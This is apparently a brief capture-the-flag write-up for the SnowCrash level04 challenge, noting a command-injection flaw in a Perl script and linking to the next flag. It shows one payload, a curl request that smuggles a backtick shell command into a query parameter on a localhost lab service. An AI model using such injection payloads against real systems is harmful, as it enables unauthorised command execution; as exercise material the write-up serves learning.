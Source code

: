 # Find the password of Flag04

## First check :
Home directory : \[✓\] not empty.

```
$ ls
$ level04.pl
```
## Deeper check :

`cat level04.pl`

In the perl file, we noticed that there is a possibility to inject a command in the param.

> curl 'localhost:4747?x=\`getflag\`'

## TADAAAAAAA, It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level04/flag)

_tobecontinued_
